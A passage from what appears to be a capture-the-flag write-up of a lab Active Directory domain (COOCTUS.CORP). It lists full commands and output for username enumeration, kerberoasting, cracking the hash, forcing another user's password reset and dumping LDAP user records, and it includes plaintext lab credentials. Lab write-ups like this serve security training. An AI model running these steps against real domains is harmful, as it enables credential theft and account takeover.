 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/10/24 - Ronnie Flathers @ropnop

2024/04/10 17:21:08 >  Using KDC(s):
2024/04/10 17:21:08 >  	10.10.236.98:88

2024/04/10 17:21:13 >  [+] VALID USERNAME:	 david@COOCTUS.CORP
2024/04/10 17:21:13 >  [+] VALID USERNAME:	 steve@COOCTUS.CORP
2024/04/10 17:21:13 >  [+] VALID USERNAME:	 mark@COOCTUS.CORP
2024/04/10 17:21:13 >  [+] VALID USERNAME:	 kevin@COOCTUS.CORP
2024/04/10 17:21:13 >  [+] VALID USERNAME:	 jeff@COOCTUS.CORP
2024/04/10 17:21:15 >  [+] VALID USERNAME:	 howard@COOCTUS.CORP
2024/04/10 17:21:16 >  [+] VALID USERNAME:	 David@COOCTUS.CORP
2024/04/10 17:21:17 >  [+] VALID USERNAME:	 ben@COOCTUS.CORP
2024/04/10 17:21:17 >  [+] VALID USERNAME:	 Steve@COOCTUS.CORP
2024/04/10 17:21:19 >  [+] VALID USERNAME:	 karen@COOCTUS.CORP
2024/04/10 17:21:23 >  [+] VALID USERNAME:	 evan@COOCTUS.CORP
2024/04/10 17:21:28 >  [+] VALID USERNAME:	 Mark@COOCTUS.CORP
2024/04/10 17:21:30 >  [+] VALID USERNAME:	 administrator@COOCTUS.CORP
2024/04/10 17:21:31 >  [+] VALID USERNAME:	 Howard@COOCTUS.CORP
2024/04/10 17:21:32 >  [+] VALID USERNAME:	 Kevin@COOCTUS.CORP
2024/04/10 17:21:32 >  [+] VALID USERNAME:	 jon@COOCTUS.CORP
2024/04/10 17:21:33 >  [+] VALID USERNAME:	 STEVE@COOCTUS.CORP
2024/04/10 17:21:43 >  [+] VALID USERNAME:	 Jeff@COOCTUS.CORP
2024/04/10 17:21:54 >  [+] VALID USERNAME:	 DAVID@COOCTUS.CORP
2024/04/10 17:22:02 >  [+] VALID USERNAME:	 Karen@COOCTUS.CORP
2024/04/10 17:22:26 >  [+] VALID USERNAME:	 MARK@COOCTUS.CORP
2024/04/10 17:22:30 >  [+] VALID USERNAME:	 JEFF@COOCTUS.CORP
2024/04/10 17:23:07 >  [+] VALID USERNAME:	 Jon@COOCTUS.CORP
2024/04/10 17:23:16 >  [+] VALID USERNAME:	 KEVIN@COOCTUS.CORP
2024/04/10 17:23:17 >  [+] VALID USERNAME:	 Ben@COOCTUS.CORP
2024/04/10 17:23:27 >  [+] VALID USERNAME:	 Administrator@COOCTUS.CORP
2024/04/10 17:24:09 >  [+] VALID USERNAME:	 HOWARD@COOCTUS.CORP
2024/04/10 17:24:11 >  [+] VALID USERNAME:	 BEN@COOCTUS.CORP
2024/04/10 17:27:05 >  [+] VALID USERNAME:	 Evan@COOCTUS.CORP
2024/04/10 17:27:40 >  [+] VALID USERNAME:	 spooks@COOCTUS.CORP
2024/04/10 17:28:55 >  [+] VALID USERNAME:	 JON@COOCTUS.CORP
2024/04/10 17:32:15 >  [+] VALID USERNAME:	 fawaz@COOCTUS.CORP
2024/04/10 17:33:15 >  [+] VALID USERNAME:	 visitor@COOCTUS.CORP
2024/04/10 17:36:03 >  [+] VALID USERNAME:	 KAREN@COOCTUS.CORP
2024/04/10 17:37:58 >  [+] VALID USERNAME:	 pars@COOCTUS.CORP
2024/04/10 17:56:48 >  [+] VALID USERNAME:	 EVAN@COOCTUS.CORP
```

I found quite a bit of valid usernames. I then parsed them like this.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 18:21]
└─[$]> awk -F '[@:]' '/VALID USERNAME/ {gsub(/^[ \t]+/, "", $(NF-1)); print $(NF-1)}' found_usersnames_kerbrute 
david
steve
mark
kevin
jeff
howard
David
ben
Steve
karen
evan
Mark
administrator
Howard
Kevin
jon
STEVE
Jeff
DAVID
Karen
MARK
JEFF
Jon
KEVIN
Ben
Administrator
HOWARD
BEN
Evan
spooks
JON
fawaz
visitor
KAREN
pars
EVAN
```

Nothing from the password spray, none of that big kerbrute-derived username list pairs up with `Bob`/`Bill`'s cracked passwords from earlier. Rather than burning more time bruteforcing, I go back to basics and just look at what the login screen itself shows me. I then connected to the `10.10.84.92` host since it was running `RDP` and found this.



which seems like credentials. Used `crackmapexec` and we have a hit!

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 18:48]
└─[$]> crackmapexec smb 10.10.84.0/24 -u 'Visitor'  -p 'GuestLogin!' --shares   
SMB         10.10.84.92     445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.84.92     445    DC               [+] COOCTUS.CORP\Visitor:GuestLogin! 
SMB         10.10.84.92     445    DC               [*] Enumerated shares
SMB         10.10.84.92     445    DC               Share           Permissions     Remark
SMB         10.10.84.92     445    DC               -----           -----------     ------
SMB         10.10.84.92     445    DC               ADMIN$                          Remote Admin
SMB         10.10.84.92     445    DC               C$                              Default share
SMB         10.10.84.92     445    DC               Home            READ            
SMB         10.10.84.92     445    DC               IPC$            READ            Remote IPC
SMB         10.10.84.92     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.84.92     445    DC               SYSVOL          READ            Logon server share 
```


```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 18:46]
└─[$]> smbclient  //10.10.84.92/Home -U 'Visitor'     
Password for [WORKGROUP\Visitor]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jun  8 15:42:53 2021
  ..                                  D        0  Tue Jun  8 15:42:53 2021
  user.txt                            A       17  Mon Jun  7 23:14:25 2021

		15587583 blocks of size 4096. 11429006 blocks available
smb: \> get user.txt
getting file \user.txt of size 17 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> 
```

I then went in with `BloodHound-Python` to get more information about the domain.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 18:53]
└─[$]> bloodhound-python -d 'COOCTUS.CORP' -u 'Visitor' -p 'GuestLogin!' -ns 10.10.84.92 -c all 
INFO: Found AD domain: cooctus.corp
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.cooctus.corp:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: dc.cooctus.corp
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Found 23 users
INFO: Found 63 groups
INFO: Found 2 gpos
INFO: Found 13 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.COOCTUS.CORP
INFO: Done in 00M 20S
```

After importing the files into `bloodhound` i wanted to find users who are `kerberoastable` and found a user called `PASWORD-RESET`.



What I am assuming is that we can reset users passwords on the domain to move up in regards of lateral movement.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 19:00]
└─[$]> python3 ~/ADTools/targetedKerberoast/targetedKerberoast.py -v -d "COOCTUS.CORP" -u "Visitor" -p 'GuestLogin!'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (password-reset)
$krb5tgs$23$*password-reset$COOCTUS.CORP$COOCTUS.CORP/password-reset*$2e57264ccf57caf774b2ade2f83c500f$3ed3654b5f7b8b2563a2b0433070ed5d1a19bec2a80c851a68c0b77bb19efac7e7aca48327bd812b9a4e8fdc2f207c3c405a0342c5c298a82233af979b4d3779093cc712054426de8727c6860100dae82893ba88af4fe2ddd04dc430a8efc536b883283e93b1383db7e9d2737e3d495a2917eb9e55587b527430616f2eb2547b6880952e557380afff88081bfdd325bf33126f0297719226f24ccd88307f077299c8227731ce8b00a7543b8cb955bddbec0ddff21f99222ebc32474fcfb7d9a87b8574f583f293bddbfab4b8849a09168f8430719c350d100c5ccf5f314c9ab97006eab57e02caec841a7b5d0ddaba7618445a0a2e3f43fb379bee461a2f2725aaad927c708cf10d93a70585d552013f843d5ec45ea02d36b5006e22622d54e5269c55a46e5192d3a473007930ed13e48c9758d76af68a263ee6c765961bce6c2b1ae7d5ae61f99efb1071bd43eaf84d1095dd19efed3971b1d9b24bcde5cd313ec26ed0402e529dc66d39cc92ac262dbb5d7794c6aab084228f17a39f43c15fd79cb97b467cdb94378d0ba338ae212ebd8176c4c24857e8202f7630edc3c35f01afa35bf8169bd6f96b2ea66c76bda5d3b1fc782a85653023729f49b49225a64ea266d6f90135f49ed2dedcdce2e0e4be51434b9c0efbef3620acc28316b57beeb5f210e49223d11490ded85caa81279d9dc8432ca6bf63c226aca249e486327e244c837178f9be6954ba352f46775997a2a414c5a58cdaf9f2ca8db38a2f7bb7d6268efd7e6735f5bc9539cae6665aea3c9944cca997064924ef07db4ae209d9deaa17edf1a3a6caee3e66acdd671828487ce22f3c020dc26a5d00faeab8b126ba36a2556b0bee9b7a3fe5ed9164f187e1cc22c72f66a100470e5e2f8e6c9c83af4ebe7b44b62ee3e031a549aab6bf1fff34a651749372a4969d6e3d2eef12a6765f30b3ed23385dd9fcaf035af0b45b5e73bca93e2ea253869b8d655186afa2cf85414133f068f12a20fd235ab26292e1f22f45406803403b5440a3dadae85f853cc3b9fdcd2bcbfba5535dcb189fb201b38385168498e9758c58e218aa3a23a9af464fed949dc170a1bd7f6969bbc42a92ce94abd21af7cc098b27c0fbb62dd6b99db2b2690e3325688a185271db6224a706134992f359abed7a08456c6dd1d164f8bdf75f46263bcc0489089d8fa90db8cd08c8149c07aa1369cfbf60382063c1211c6eb88f6a0e5c97fb2c5d1b05fa731e37bdc8784696984f015308b69d444fa0cd3d78d390cd4d2e7eeb6a4289f7589594f7e2f5ceec55a2117bc234abfad074b586aca54c3d6ee9effe3a8867e81eb9a99fdfffad57194b
```

Cracked the password with `hashcat`

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 19:02]
└─[$]> hashcat -m 13100 -a 0 password-reset-hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force --potfile-disable
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*password-reset$COOCTUS.CORP$COOCTUS.CORP/password-reset*$2e57264ccf57caf774b2ade2f83c500f$3ed3654b5f7b8b2563a2b0433070ed5d1a19bec2a80c851a68c0b77bb19efac7e7aca48327bd812b9a4e8fdc2f207c3c405a0342c5c298a82233af979b4d3779093cc712054426de8727c6860100dae82893ba88af4fe2ddd04dc430a8efc536b883283e93b1383db7e9d2737e3d495a2917eb9e55587b527430616f2eb2547b6880952e557380afff88081bfdd325bf33126f0297719226f24ccd88307f077299c8227731ce8b00a7543b8cb955bddbec0ddff21f99222ebc32474fcfb7d9a87b8574f583f293bddbfab4b8849a09168f8430719c350d100c5ccf5f314c9ab97006eab57e02caec841a7b5d0ddaba7618445a0a2e3f43fb379bee461a2f2725aaad927c708cf10d93a70585d552013f843d5ec45ea02d36b5006e22622d54e5269c55a46e5192d3a473007930ed13e48c9758d76af68a263ee6c765961bce6c2b1ae7d5ae61f99efb1071bd43eaf84d1095dd19efed3971b1d9b24bcde5cd313ec26ed0402e529dc66d39cc92ac262dbb5d7794c6aab084228f17a39f43c15fd79cb97b467cdb94378d0ba338ae212ebd8176c4c24857e8202f7630edc3c35f01afa35bf8169bd6f96b2ea66c76bda5d3b1fc782a85653023729f49b49225a64ea266d6f90135f49ed2dedcdce2e0e4be51434b9c0efbef3620acc28316b57beeb5f210e49223d11490ded85caa81279d9dc8432ca6bf63c226aca249e486327e244c837178f9be6954ba352f46775997a2a414c5a58cdaf9f2ca8db38a2f7bb7d6268efd7e6735f5bc9539cae6665aea3c9944cca997064924ef07db4ae209d9deaa17edf1a3a6caee3e66acdd671828487ce22f3c020dc26a5d00faeab8b126ba36a2556b0bee9b7a3fe5ed9164f187e1cc22c72f66a100470e5e2f8e6c9c83af4ebe7b44b62ee3e031a549aab6bf1fff34a651749372a4969d6e3d2eef12a6765f30b3ed23385dd9fcaf035af0b45b5e73bca93e2ea253869b8d655186afa2cf85414133f068f12a20fd235ab26292e1f22f45406803403b5440a3dadae85f853cc3b9fdcd2bcbfba5535dcb189fb201b38385168498e9758c58e218aa3a23a9af464fed949dc170a1bd7f6969bbc42a92ce94abd21af7cc098b27c0fbb62dd6b99db2b2690e3325688a185271db6224a706134992f359abed7a08456c6dd1d164f8bdf75f46263bcc0489089d8fa90db8cd08c8149c07aa1369cfbf60382063c1211c6eb88f6a0e5c97fb2c5d1b05fa731e37bdc8784696984f015308b69d444fa0cd3d78d390cd4d2e7eeb6a4289f7589594f7e2f5ceec55a2117bc234abfad074b586aca54c3d6ee9effe3a8867e81eb9a99fdfffad57194b:resetpassword
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*password-reset$COOCTUS.CORP$COOCTUS.CO...57194b
Time.Started.....: Wed Apr 10 19:02:44 2024, (0 secs)
Time.Estimated...: Wed Apr 10 19:02:44 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1922.0 kH/s (1.55ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 237569/14344384 (1.66%)
Rejected.........: 1/237569 (0.00%)
Restore.Point....: 233473/14344384 (1.63%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: superdave1 -> nice18
Hardware.Mon.#1..: Temp: 38c Util: 24%

Started: Wed Apr 10 19:02:43 2024
Stopped: Wed Apr 10 19:02:46 2024
```



I found that there is a user called `kevin` that is in charge of the `fileserver` or is apart of the group. I had then reset the password for his user to `P@ssw0rd123!@$`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 19:03]
└─[$]> net rpc password "kevin" "P@ssw0rd123!@$" -U "COOCTUS.CORP"/"password-reset"%"resetpassword" -S "10.10.84.92" 
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 19:05]
└─[$]> crackmapexec smb 10.10.84.0/24 -u 'kevin'  -p 'P@ssw0rd123!@$' --shares
SMB         10.10.84.92     445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.84.92     445    DC               [+] COOCTUS.CORP\kevin:P@ssw0rd123!@$ 
SMB         10.10.84.92     445    DC               [*] Enumerated shares
SMB         10.10.84.92     445    DC               Share           Permissions     Remark
SMB         10.10.84.92     445    DC               -----           -----------     ------
SMB         10.10.84.92     445    DC               ADMIN$                          Remote Admin
SMB         10.10.84.92     445    DC               C$                              Default share
SMB         10.10.84.92     445    DC               Home                            
SMB         10.10.84.92     445    DC               IPC$            READ            Remote IPC
SMB         10.10.84.92     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.84.92     445    DC               SYSVOL          READ            Logon server share 
```

I saw that the user `password-reset` has an SPN and the first thing that came to mind was impersonating the administrator to get the files needed to login

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 19:34]
└─[$]> python3 ~/ADTools/pywerview/pywerview.py get-netuser -u 'password-reset' -p 'resetpassword' -t dc.cooctus.corp -d COOCTUS.CORP
objectclass:              top, person, organizationalPerson, user
cn:                       reset
givenname:                reset
distinguishedname:        CN=reset,OU=Service-Accounts,DC=COOCTUS,DC=CORP
instancetype:             4
whencreated:              2021-06-08 05:32:40+00:00
whenchanged:              2024-04-10 23:05:48+00:00
displayname:              reset
usncreated:               57389
usnchanged:               98672
name:                     reset
objectguid:               {8cf33c91-c972-4329-aff5-6f03306979e7}
useraccountcontrol:       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
badpwdcount:              0
codepage:                 0
countrycode:              0
badpasswordtime:          1601-01-01 00:00:00+00:00
lastlogoff:               1601-01-01 00:00:00+00:00
lastlogon:                2021-06-08 21:46:23.369539+00:00
logonhours:               ffffffffffffffffffffffffffffffffffffffffff...
pwdlastset:               2021-06-08 22:00:39.356665+00:00
primarygroupid:           513
objectsid:                S-1-5-21-2062199590-3607821280-2073525473-1134
accountexpires:           1601-01-01 00:00:00+00:00
logoncount:               4
samaccountname:           password-reset
samaccounttype:           USER_OBJECT
userprincipalname:        password-reset@COOCTUS.CORP
serviceprincipalname:     HTTP/dc.cooctus.corp
objectcategory:           CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata:    2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                          2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00
lastlogontimestamp:       2024-04-10 23:05:48.022436+00:00
msds-allowedtodelegateto: oakley/DC.COOCTUS.CORP/COOCTUS.CORP, oakley/DC.COOCTUS.CORP, oakley/DC, 
                          oakley/DC.COOCTUS.CORP/COOCTUS, oakley/DC/COOCTUS

objectclass:           top, person, organizationalPerson, user
cn:                    David
givenname:             David
distinguishedname:     CN=David,OU=Contractors,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:20:50+00:00
whenchanged:           2021-06-08 05:20:50+00:00
displayname:           David
usncreated:            53365
usnchanged:            53371
name:                  David
objectguid:            {9ac0c69e-b01e-4f67-938e-a27f35cb6192}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           27
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:16.181225+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:20:50.371178+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1132
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        David
samaccounttype:        USER_OBJECT
userprincipalname:     David@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    Ben
givenname:             Ben
distinguishedname:     CN=Ben,OU=Helpdesk,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:20:36+00:00
whenchanged:           2021-06-08 05:20:36+00:00
displayname:           Ben
usncreated:            53357
memberof:              CN=MSSQL Admins,CN=Builtin,DC=COOCTUS,DC=CORP, CN=File Server Admins,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=East Coast,CN=Builtin,DC=COOCTUS,DC=CORP, CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53363
name:                  Ben
objectguid:            {0c274bf9-c846-4b04-b2c4-6f8b90f13fd5}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           27
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:21.884357+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:20:36.044931+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1131
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        Ben
samaccounttype:        USER_OBJECT
userprincipalname:     Ben@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    evan
givenname:             evan
distinguishedname:     CN=evan,OU=HR,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:20:19+00:00
whenchanged:           2021-06-08 05:20:19+00:00
displayname:           evan
usncreated:            53349
memberof:              CN=File Server Access,CN=Builtin,DC=COOCTUS,DC=CORP, CN=East Coast,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53355
name:                  evan
objectguid:            {b48959f9-1a98-4395-b4a3-532664622f28}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           27
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:26.962454+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:20:19.905840+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1130
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        evan
samaccounttype:        USER_OBJECT
userprincipalname:     evan@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    varg
givenname:             varg
distinguishedname:     CN=varg,OU=Marketing,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:19:30+00:00
whenchanged:           2021-06-08 05:19:30+00:00
displayname:           varg
usncreated:            53341
memberof:              CN=File Server Access,CN=Builtin,DC=COOCTUS,DC=CORP, CN=West Coast,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53347
name:                  varg
objectguid:            {814df651-8303-4e48-b423-0449fe78b499}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           0
codepage:              0
countrycode:           0
badpasswordtime:       1601-01-01 00:00:00+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:19:30.517693+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1129
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        Varg
samaccounttype:        USER_OBJECT
userprincipalname:     Varg@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    jon
givenname:             jon
distinguishedname:     CN=jon,OU=R&D,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:19:12+00:00
whenchanged:           2021-06-08 05:19:12+00:00
displayname:           jon
usncreated:            53333
memberof:              CN=MSSQL Access,CN=Builtin,DC=COOCTUS,DC=CORP, CN=File Server Access,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=East Coast,CN=Builtin,DC=COOCTUS,DC=CORP, CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53339
name:                  jon
objectguid:            {08e46e76-323d-48fe-8a4e-ec81dba6d40d}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           27
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:23.790571+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:19:12.191055+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1128
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        jon
samaccounttype:        USER_OBJECT
userprincipalname:     jon@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    kevin
givenname:             kevin
distinguishedname:     CN=kevin,OU=Sales,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:18:35+00:00
whenchanged:           2024-04-10 23:06:57+00:00
displayname:           kevin
usncreated:            53325
memberof:              CN=File Server Access,CN=Builtin,DC=COOCTUS,DC=CORP, CN=West Coast,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            98675
name:                  kevin
objectguid:            {9fe982c2-2139-4c71-9767-6c651429dafb}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           0
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:19.337479+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             2024-04-10 23:11:23.771862+00:00
pwdlastset:            2024-04-10 23:06:40.056427+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1127
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            1
samaccountname:        kevin
samaccounttype:        USER_OBJECT
userprincipalname:     kevin@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00
lastlogontimestamp:    2024-04-10 23:06:57.688604+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    paradox
givenname:             paradox
distinguishedname:     CN=paradox,OU=Sales,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:18:21+00:00
whenchanged:           2021-06-08 05:18:21+00:00
displayname:           paradox
usncreated:            53317
memberof:              CN=West Coast,CN=Builtin,DC=COOCTUS,DC=CORP, CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53323
name:                  paradox
objectguid:            {b350df50-42c9-4115-ba96-9deba8219a16}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           9
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:26.337492+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:18:21.446211+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1126
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        pars
samaccounttype:        USER_OBJECT
userprincipalname:     pars@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    yumeko
givenname:             yumeko
distinguishedname:     CN=yumeko,OU=R&D,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:18:01+00:00
whenchanged:           2021-06-08 05:18:02+00:00
displayname:           yumeko
usncreated:            53308
memberof:              CN=File Server Admins,CN=Builtin,DC=COOCTUS,DC=CORP, CN=East Coast,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53314
name:                  yumeko
objectguid:            {205dff0b-21f8-4944-b6bc-1cac3e7801b6}
